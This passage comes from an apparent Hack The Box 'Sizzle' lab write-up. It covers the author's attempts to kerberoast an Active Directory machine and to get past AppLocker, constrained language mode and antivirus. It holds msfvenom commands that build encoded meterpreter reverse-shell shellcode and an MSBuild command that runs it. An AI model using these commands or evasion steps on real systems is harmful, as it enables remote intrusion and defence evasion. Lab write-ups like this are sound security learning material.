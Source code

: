![](/images/hackthebox/sizzle/34.png)
#### Since this was an Active Directory environment I wanted to do kerberoasting, but `Invoke-Kerberoast.ps1` needed Full Language Mode, I couldn't use `GetUserSPNs.py` because the services were internal only. And my attempts to evade the antivirus failed. I could bypass the constrained language mode with [PSByPassCLM](https://github.com/padovah4ck/PSByPassCLM) and still couldn't use `Invoke-Kerberoast.ps1`. AppLocker is easy to [bypass](https://github.com/api0cradle/UltimateAppLockerByPassList) so it wasn't an issue. But I had to bypass the antivirus. 
<br>
<hr>
### Bypassing AV
#### I found [this article](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-msbuild-exe/) and this [POC](https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20shellcode.xml)
#### First time I created the payload like this :
`msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=1339 -f csharp`
#### And I added the shellcode to the POC and applied the exploit :
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\windows\system32\spool\drivers\color\shellcode.xml`
![](/images/hackthebox/sizzle/35.png)
#### The antivirus detected it. I added an encoder and 100 iterations and tried again :
`msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=1339 -e x86/shikata_ga_nai -i 100 -f csharp`
![](/images/hackthebox/sizzle/36.png)